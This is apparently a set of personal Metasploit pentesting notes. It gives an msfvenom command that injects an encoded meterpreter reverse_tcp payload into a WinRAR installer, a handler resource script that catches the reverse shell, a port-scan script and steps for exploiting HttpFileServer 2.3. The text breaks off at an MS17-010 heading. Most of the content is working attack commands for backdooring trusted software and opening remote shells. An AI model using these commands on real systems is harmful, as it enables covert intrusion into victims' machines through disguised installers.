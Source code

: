 * Injecting into winRAR executable
    * download the original winrar executable
    * msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=1234 -i 10 -e x86/shikata_ga_nai -f exe -x ~/Downloads/winrar-x32-611.exe > ~/payloads/winrar-x32-611-payload.exe
    * `-k` option can be used to keep the original behaviour of the executable, however, most of the executables donot allow it. So `-k` flag doesn't work with winrar

## Automating

### Automating metasploit with resource scripts

```handler.rc
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.1
set LPORT 1234
run
```

To run:

msfconsole -r handler.rc

Another Example

```port_scan.rc
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.1.1
run
```

load resource script from within msfconsole

resource /path/to/hander.rc

to export commands to handler script from within msfconsole: makerc /path/to/script.rc


## Windows Exploitation

### Exploiting a vulnerable HTTP File Server

from msfconsole:

* setg rhosts <target>
* db_nmap -sV -O <target>
    * This shows a HttpFileServer 2.3 running on target
* search type:exploit name:HttpFileServer
    * shows an exploit for rejetto file server tested on v2.3
    * We could verify this claim my opening the target file server in browser and looking for software version information if available
* Running the above mentioned exploit will provide a meterpreter sesion into the system

### Exploiting Windows MS17-010 SMB Vulnerability 
